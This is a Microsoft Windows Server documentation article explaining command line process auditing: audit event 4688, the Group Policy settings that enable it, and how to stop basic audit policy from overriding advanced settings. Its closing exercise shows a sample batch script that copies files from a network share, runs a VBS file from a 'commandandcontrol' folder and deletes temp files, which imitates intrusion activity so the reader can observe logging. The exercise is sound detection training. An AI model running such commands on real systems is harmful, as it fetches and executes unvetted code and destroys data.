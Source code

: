 ```yaml
---
description: "Learn more about: Command line process auditing"
ms.assetid: c8597cc8-bdcb-4e59-a09e-128ef5ebeaf8
title: Command line process auditing
author: iainfoulds
ms.author: daveba
manager: daveba
ms.date: 05/01/2023
ms.topic: article
ms.custom: inhenkel
---
```


# Command line process auditing

>Applies to: Windows Server 2022, Windows Server 2019, Windows Server 2016, Windows Server 2012 R2

**Author**: Justin Turner, Senior Support Escalation Engineer with the Windows group

> [!NOTE]
> This content is written by a Microsoft customer support engineer, and is intended for experienced administrators and systems architects who are looking for deeper technical explanations of features and solutions in Windows Server 2012 R2 than topics on TechNet usually provide. However, it has not undergone the same editing passes, so some of the language may seem less polished than what is typically found on TechNet.

## Overview

-   The pre-existing process creation audit event ID 4688 will now include audit information for command line processes.

-   It will also log SHA1/2 hash of the executable in the Applocker event log

    -   Application and Services Logs\Microsoft\Windows\AppLocker

-   You enable via GPO, but it's disabled by default

    -   "Include command line in process creation events"

![Screenshot that highlights the Process Command Line.](media/Command-line-process-auditing/GTR_ADDS_Event4688.gif)

**Figure  SEQ Figure \\\* ARABIC 16 Event 4688**

Review the updated event ID 4688 in  REF _Ref366427278 \h Figure 16.  Prior to this update none of the information for **Process Command Line** gets logged.  Because of this additional logging we can now see that not only was the wscript.exe process started, but that it was also used to execute a VB script.

## Configuration
To see the effects of this update, you'll need to enable two policy settings.

### You must have Audit Process Creation auditing enabled to see event ID 4688.
To enable the Audit Process Creation policy, edit the following group policy:

**Policy location:** Computer Configuration > Policies > Windows Settings > Security Settings > Advanced Audit Configuration > Detailed Tracking

**Policy Name:** Audit Process Creation

**Supported on:** Windows 7 and above

**Description/Help:**

This security policy setting determines whether the operating system generates audit events when a process is created (starts) and the name of the program or user that created it.

These audit events can help you understand how a computer is being used and to track user activity.

Event volume: Low to medium, depending on system usage

**Default:** Not configured

### In order to see the additions to event ID 4688, you must enable the new policy setting: Include command line in process creation events
**Table  SEQ Table \\\* ARABIC 19 Command line process policy setting**

|Policy Configuration|Details|
|------------------------|-----------|
|**Path**|Administrative Templates\System\Audit Process Creation|
|**Setting**|**Include command line in process creation events**|
|**Default setting**|Not Configured (not enabled)|
|**Supported on:**|?|
|**Description**|This policy setting determines what information is logged in security audit events when a new process has been created.<p>This setting only applies when the Audit Process Creation policy is enabled. If you enable this policy setting the command line information for every process will be logged in plain text in the security event log as part of the Audit Process Creation event 4688, "a new process has been created," on the workstations and servers on which this policy setting is applied.<p>If you disable or don't configure this policy setting, the process's command line information won't be included in Audit Process Creation events.<p>Default: Not configured<p>Note: When this policy setting is enabled, any user with access to read the security events will be able to read the command line arguments for any successfully created process. Command line arguments can contain sensitive or private information such as passwords or user data.|

![Screenshot that shows ](media/Command-line-process-auditing/GTR_ADDS_IncludeCLISetting.gif)

When you use Advanced Audit Policy Configuration settings, you need to confirm that these settings aren't overwritten by basic audit policy settings.  Event 4719 is logged when the settings are overwritten.

![Screenshot that shows the Include command line in process creation events dialog box.](media/Command-line-process-auditing/GTR_ADDS_Event4719.gif)

The following procedure shows how to prevent conflicts by blocking the application of any basic audit policy settings.

### To ensure that Advanced Audit Policy Configuration settings aren't overwritten
![command-line auditing](media/Command-line-process-auditing/GTR_ADDS_AdvAuditPolicy.gif)

1.  Open the Group Policy Management console

2.  Right-click Default Domain Policy, and then select Edit.

3.  Double-click Computer Configuration, double-click Policies, and then double-click Windows Settings.

4.  Double-click Security Settings, double-click Local Policies, and then select Security Options.

5.  Double-click Audit: Force audit policy subcategory settings (Windows Vista or later) to override audit policy category settings, and then select Define this policy setting.

6.  Select Enabled, and then select OK.

## Additional Resources
[Audit Process Creation](/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd941613(v=ws.10))

[Advanced Security Audit Policy Step-by-Step Guide](/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd408940(v=ws.10))

[AppLocker: Frequently Asked Questions](/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/ee619725(v=ws.10))

## Try This: Explore command line process auditing

1.  Enable **Audit Process Creation** events and ensure the Advance Audit Policy configuration isn't overwritten

2.  Create a script that generates some events of interest and execute the script.  Observe the events.  The script used to generate the event in the lesson looked like this:

    ```
    mkdir c:\systemfiles\temp\commandandcontrol\zone\fifthward
    copy \\192.168.1.254\c$\hidden c:\systemfiles\temp\hidden\commandandcontrol\zone\fifthward
    start C:\systemfiles\temp\hidden\commandandcontrol\zone\fifthward\ntuserrights.vbs
    del c:\systemfiles\temp\*.* /Q
    ```

3.  Enable the command line process auditing

4.  Execute the same script as before and observe the events

